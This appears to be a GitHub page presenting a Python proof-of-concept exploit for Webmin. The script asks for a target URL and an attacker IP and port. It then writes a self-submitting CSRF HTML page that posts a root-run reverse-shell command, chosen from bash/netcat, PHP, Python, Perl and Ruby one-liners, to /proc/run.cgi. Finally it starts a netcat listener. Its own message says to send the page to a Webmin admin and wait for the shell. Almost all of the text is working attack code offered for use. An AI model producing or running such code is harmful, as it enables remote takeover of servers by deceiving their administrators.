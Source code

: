 截圖
----

![](ExploitPOC.png "ExploitPOC.png")

EXP
---

    import time, subprocess,random

    print('''\033[1;37m
     __  __           _     ____  _          _________  _     _            _
    |  \/  |         | |   |___ \| |        |___  / _ \| |   | |          | |
    | \  / | ___  ___| |__   __) | |           / / | | | | __| |_   _  ___| | __
    | |\/| |/ _ \/ __| '_ \ |__ <| |          / /| | | | |/ _` | | | |/ __| |/ /
    | |  | |  __/__ \ | | |___) | |  _ _    / /_| |_| | | (_| | |_| | (__|   <
    |_|  |_|___||___/_| |_|____/|_| (_|_)  /________/|_|__,_|__, |___|_|_/
                                                                 __/ |
                                                                |___/
        \033[1;m''')

    for i in range(101):
        print(
            "\r\033[1;36m [>] POC By \033[1;m \033[1;37mMesh3l\033[1;m \033[1;36m ( \033[1;m\033[1;37m@Mesh3l_911\033[1;m\033[1;36m )  & \033[1;m \033[1;37mZ0ldyck\033[1;m\033[1;36m  ( \033[1;m\033[1;37m@electronicbots\033[1;m\033[1;36m ) \033[1;m {} \033[1;m".format(
                i), "\033[1;36m%\033[1;m", end="")
        time.sleep(0.02)
    print("\n\n")

    target = input(
        "\033[1;36m \n Please input ur target's webmin path e.g. ( https://webmin.Mesh3l-Mohammed.com/ ) > \033[1;m")

    if target.endswith('/'):
        target = target + 'proc/run.cgi'
    else:
        target = target + '/proc/run.cgi'

    ip = input("\033[1;36m \n Please input ur IP to set up the Reverse Shell e.g. ( 10.10.10.10 ) > \033[1;m")

    port = input("\033[1;36m \n Please input a Port to set up the Reverse Shell e.g. ( 1337 ) > \033[1;m")

    ReverseShell = input \
    ('''\033[1;37m
    \n
    1- Bash Reverse Shell \n
    2- PHP Reverse Shell \n
    3- Python Reverse Shell \n
    4- Perl Reverse Shell \n
    5- Ruby Reverse Shell \n
    \033[1;m
    \033[1;36mPlease insert the number Reverse Shell's type u want e.g. ( 1 ) > \033[1;m''')

    file_name = random.randrange(1000)

    if ReverseShell == '1':
        ReverseShell = 'mkfifo /tmp/'+str(file_name)+'; nc '+ip+' '+port+' 0</tmp/'+str(file_name)+' | /bin/sh >/tmp/'+str(file_name)+' 2>&1; rm /tmp/'+str(file_name)+''

    elif ReverseShell == '2':
        ReverseShell = ''' php -r '$sock=fsockopen("''' + ip + '''",''' + port + ''');exec("/bin/sh -i <&3 >&3 2>&3");' '''

    elif ReverseShell == '3':
        ReverseShell = ''' python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("''' + ip + '''",''' + port + '''));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' '''

    elif ReverseShell == '4':
        ReverseShell = ''' perl -e 'use Socket;$i="''' + ip + '''";$p=''' + port + ''';socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' '''

    elif ReverseShell == '5':
        ReverseShell = ''' ruby -rsocket -e'f=TCPSocket.open("''' + ip + '''",''' + port + ''').to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)' '''

    else:
        print("\033[1;36m \n Please Re-Check ur input :( \033[1;m \n")


    def CSRF_Generator():
        with open('CSRF_POC.html', 'w') as POC:
            POC.write \
                ('''
    <html>
            <head>
                <meta name="referrer" content="never">
            </head>
      <body>
        <script>history.pushState('', '', '/')</script>
        <form action="''' + target +'''" method="POST">
          <input type="hidden" name="cmd" value="''' + ReverseShell + '''" />
          <input type="hidden" name="mode" value="0" />
          <input type="hidden" name="user" value="root" />
          <input type="hidden" name="input" value="" />
          <input type="hidden" name="undefined" value="" />
          <input type="submit" value="Submit request" />
        </form>
        <script>
          document.forms[0].submit();
        </script>
      </body>
    </html>
        ''')
        POC.close()

        print(
            "\033[1;36m\nThe CSRF_POC has been generated successfully , send it to a Webmin's Admin and wait for your Reverse Shell ^_^ \n \033[1;m")


    def Netcat_listener():
        print()
        subprocess.run(["nc", "-nlvp "+port+""])


    def main():
        CSRF_Generator()
        Netcat_listener()


    if __name__ == '__main__':
        main()